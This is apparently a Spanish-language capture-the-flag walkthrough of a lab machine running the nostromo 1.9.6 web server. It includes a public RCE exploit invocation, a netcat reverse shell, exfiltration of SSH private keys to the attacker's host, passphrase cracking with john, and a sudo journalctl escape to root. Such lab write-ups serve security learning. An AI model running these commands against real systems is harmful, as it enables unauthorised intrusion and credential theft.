


## 1. Enumeración
Para identificar la máquina en nuestra red se puede hacer uso de herramientas como netdiscover, arp-scan o inlcuso nmap. Una vez localizado se emplea nmap para lanzar un scan de puertos:

```sh
$ nmap -sV -T4 -open 10.10.10.165
```


Se pueden ver servicios interesantes como:
* ssh (22)
* HTTP (80)

También, es interesante, que la máquina objetivo está corriendo un Linux. De momento solo podemos ver que se trata de un Debian; más adelante, sabremos con exactitud qué distro es.

## 2. Explotación
Vamos a comenzar a buscar si existe alguna vulnerabilidad para el servidor web, el cual nmap nos dice que se trata de <kbd>nostromo. 1.9.6</kbd>. Para ello vamos a Google y, en los primeros resutlados, nos aparece una entrada en [exploit-db](https://www.exploit-db.com).

* https://www.exploit-db.com/exploits/47837

Básicamente este exploit nos permitirá ejecutar código remoto en la máquina debido a una vulnerabilidad que presenta dicho servidor web.

Una vez descargado el exploit procedemos a ver cómo hay que ejecutarlo.


Bien, pues solamente hemos de añadir la IP de la máquina objetivo, el puerto (80) y el comando que queremos que se ejecute en dicha máquina.

Vamos a probar con un ejemplo, vamos a ejecutar <kbd>uname -a</kbd> para detectar el nombre y la versión de la distribución de Linux:



Perfecto, ya sabemos con exactitud qué tipo de máquina estamos intentando atacar.

A continuación vamos a intentar abrir una shell en remoto. Esta tarea la vamos a realizar mediante <kbd>nc</kbd>. Lo que haremos será poner nuestra máquina local a la espera de alguna conexión entrante; esa conexión entrante la hará la máquina objetivo.

```sh
$ nc -lnvp 7878
```

Y en otra terminal ejecutaremos el siguiente comando:

```sh
$ python cve2019_16278.py 10.10.10.165 80 "nc -c bash <local_ip> 7878"
```
> <local_ip> se cambiaría por nuestra IP.

Una vez ejecutado, nuestra terminal recibirá conexión de la máquina objetivo, por lo que ahora podremos ejecutar comandos.


Como se puede ver en la anterior captura, ahora sabemos con qué usuario estamos entrando en la máquina objetivo.

Ahora vamos a hacer un spawn del proceso para conseguir con ello una terminal. Para ello ejecutamos lo siguiente en la terminal donde acabamos de hacer el whoami:

```sh
$ python -c 'import pty;pty.spawn("/bin/bash")'
```


Acabamos de conseguir una terminal en la máquina objetivo como usuario www-data.

Procedemos a ver qué usuarios hay en la máquina, para ello vamos a hacer un <kbd>ls</kbd> de la carpeta home.


Con esto vemos que existe un usuario que se llama david. Intentamos listar qué hay dentro de la carpeta de david.


Vaya, demasiado bueno para ser verdad... No tenemos permisos para ver lo que hay dentro.

Volvemos sobre nuestros pasos y vamos a ver si hay algún archivo de configuración referente al servidor web que nos de alguna pista para poder proseguir.

Nos situamos sobre la carpeta <kbd>/var</kbd> y hacemos un listado de lo que hay dentro.

Vaya, podemos observar que dentro de /var hay una carpeta que se llama <kbd>/nostromo</kbd>, pues bien vamos a meternos en ella. 

Una vez que estamos dentro, nos damos cuenta de que existe un carpeta de configuración que se llama <kbd>/conf</kbd>, procedemos a entrar en ella. A continuación nos percatamos de que existe un archivo .cfg, vamos a abrirlo y ver lo que hay dentro.

```sh
$ cat /var/nostromo/conf/nhttpd.conf
```


Este archivo de configuración nos da mucha información, sobre todo el fichero <kbd>/var/nostromo/conf/.htpasswd</kbd> y la carpeta <kbd>/public_www</kbd>; por lo que vamos a ver qué hay dentro de esa carpeta.


Observamos que hay una carpeta que se llama <kbd>/protected_area</kbd>, procedamos a listar lo que hay dentro de esta carpeta.


Vamos a descargarnos ese archivo comprimido y ver qué es lo que hay dentro... pero podemos intuir que se tratan de claves privadas. Para descargar dicho archivo nos ayudaremos, una vez más, de netcat, por lo que en nuestra máquina pondremos un netcat a la escucha de un archivo:

```sh
$ nc -l -p 1234 > download.tgz < /dev/null
```

Por otra parte, en la terminal de la máquina objetivo vamos a ejecutar el siguiente comando:

```sh
$ cat backup.ssh-identity-files.tgz | netcat <local_ip> 1234
```

Procedemos ahora a descomprimir dicho archivo comprimido:

```sh
$ tar -zxvf download.tgz
```


Se puede ver que, efectivamente, eran las claves ssh privadas de david.

Vamos a intentar conectarnos por ssh a la máquina usando las credeciales que acabamos de obtener de david:


```sh
$ ssh -i id_rsa david@10.10.10.165
```


Vaya, no tenemos la password... Vamos a probar a reventar la clave por fuerza bruta. Con todo esto vamos a usar <kbd>/ssh2john</kbd> para obtener el hash y luego pasarlo por el mítico <kbd>/john</kbd> y ver si la clave está por defecto en nuestro diccionario de claves.


```sh
$ /usr/share/john/ssh2john.py id_rsa > hash.txt
```


```sh
$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


Pues ahí tenemos la clave para conectarnos por ssh. Vamos a conectarnos como david usando la clave que acabamos de obtener.


Genial, ya estamos dentro. Pues ahora vamos a coger la flag de nuestro usuario david.

```sh
$ cat user.txt
```

Al  listar el contenido de la carpeta david vemos que hay una carpeta que se llama bin. Dentro de dicha carpeta un fichero con permisos de ejecución que se llama <kbd>server-stats.sh</kbd>. Vamos a ejecutarlo.


Ahora, vamos a ver qué es lo que hay dentro de dicho archivo.


Nos llama la atención la última línea, la cual, nos da la pista de que se está ejecutando con permiso de administrador; bien pues vamos a ejecutar solamente la última línea, pero omitimos la pipe que ejecuta un cat:

```sh
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

Al ponerse en marcha este comando nos da la opción a poder ejecutar lo que queramos, pero hemos de añadir un ! a lo que vayamos a ejecutar, en este caso sería:


```sh
! cat /root/root.txt
```

Y ya con esto tendríamos la flag de root.